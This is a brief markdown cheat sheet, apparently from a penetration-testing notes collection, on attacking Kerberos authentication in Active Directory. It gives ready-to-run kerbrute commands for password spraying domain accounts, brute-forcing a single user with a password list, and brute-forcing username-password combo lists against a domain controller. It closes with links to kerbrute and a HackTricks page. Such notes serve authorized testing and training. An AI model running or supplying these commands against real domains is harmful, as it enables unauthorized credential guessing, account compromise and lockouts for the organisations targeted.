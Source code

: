# Kerberos

- Password Spray each domain username accounts from an active directory

`$ ./kerbrute passwordspray -d <FQDN> users.lst <password>`

- Brute force a username with a password dictionary (not recommended unless it has no lockout policy!)

`$ ./kerbrute bruteuser -d <FQDN> passwords.lst <username>`

- Brute force with a combo list of usernames and passwords against a domain controller

`$ cat combos.lst | ./kerbrute -d <FQDN> bruteforce -`

### **References**

- [Kerbrute](https://github.com/ropnop/kerbrute)

- [https://book.hacktricks.xyz/pentesting/pentesting-kerberos-88](https://book.hacktricks.xyz/pentesting/pentesting-kerberos-88)